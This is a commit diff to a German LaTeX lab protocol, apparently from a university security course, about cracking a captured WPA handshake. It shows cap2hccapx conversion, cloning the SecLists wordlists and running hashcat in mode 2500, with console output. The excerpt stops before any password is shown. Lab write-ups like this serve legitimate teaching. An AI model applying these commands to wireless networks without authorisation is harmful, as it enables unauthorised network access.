

Before and after one commit to hurbeana/ItS_Lab1, a LaTeX document (protokoll/protokoll.tex): part of page 9 of 15 before the commit and two parts of pages 9 and 10 of 17 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
completed Intranet/WLAN Passwort

```diff
--- a/protokoll/protokoll.tex
+++ b/protokoll/protokoll.tex
@@ -283,3 +283,46 @@
   00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -43   54 -24	 0	256
 \end{lstlisting}
 
+Mit den Handshake den ich in der \lstinline{.cap} Datei habe, kann ich mit \href{https://hashcat.net/hashcat/}{hashcat} und einer passenden wordlist das Passwort das in dem Handshake vermittelt worden ist herausfinden.
+
+Zuerst musste ich die \lstinline{.cap} Datei in eine, für hashcat, nutzbare Datei \lstinline{.hccapx} konvertieren. Dazu verwende ich \lstinline{cap2hccapx.exe} von den \href{https://github.com/hashcat/hashcat-utils/releases}{hashcat-utils}.
+
+\begin{lstlisting}
+PS C:\Users\hurbe\Desktop\hashcat-utils-1.9\bin> .\cap2hccapx.exe .\SecureHo
+tDogHandshake.cap SecureHotDogHandshake.hccapx
+Networks detected: 2
+
+[*] BSSID=00:18:39:bf:d7:66 ESSID=SecureHotDog (Length: 12)
+  --> STA=80:1f:02:ab:a9:9e, Message Pair=0, Replay Counter=5
+  --> STA=80:1f:02:ab:a9:9e, Message Pair=2, Replay Counter=5
+[*] BSSID=02:18:39:bf:d7:67 ESSID=HotDog (Length: 6)
+
+Written 2 WPA Handshakes to: SecureHotDogHandshake.hccapx
+\end{lstlisting}
+
+Ich habe dann verschiedene Wordlists probiert, habe es dann mit der \href{https://github.com/danielmiessler/SecLists}{SecLists} Wordlist.
+
+\begin{lstlisting}
+PS C:\Users\hurbe\Desktop\hashcat-5.0.0> git clone git@github.com:danielmiessler/SecLists.git
+Cloning into 'SecLists'...
+remote: Enumerating objects: 24, done.
+remote: Counting objects: 100% (24/24), done.
+remote: Compressing objects: 100% (19/19), done.
+remote: Total 7432 (delta 9), reused 13 (delta 5), pack-reused 7408
+Receiving objects: 100% (7432/7432), 497.36 MiB | 10.93 MiB/s, done.
+Resolving deltas: 100% (3610/3610), done.
+Checking out files: 100% (5219/5219), done.
+\end{lstlisting}
+
+Anschließend habe ich hashcat mit \lstinline{-a 0} aufgerufen, damit hashcat nur mit der Wordlists zu Hashen versucht und \lstinline{-m 2500} damit hashcat weiß dass es sich um ein WPA-Passwort handelt.
+
+\begin{lstlisting}
+PS C:\Users\hurbe\Desktop\hashcat-5.0.0> .\hashcat64.exe -a 0 -m 2500 .\SecureHotDogHandshake.hccapx .\SecLists\Miscellaneous\lang-german.txt
+hashcat (v5.0.0) starting...
+
+OpenCL Platform #1: Intel(R) Corporation
+========================================
+* Device #1: Intel(R) HD Graphics 520, skipped.
+* Device #2: Intel(R) Core(TM) i7-6600U CPU @ 2.60GHz, skipped.
+
+OpenCL Platform #2: NVIDIA Corporation
@@ -285,0 +337 @@
+\lang-german.txt
```
Also changed, not shown: protokoll/protokoll.tex (13 more changed lines).
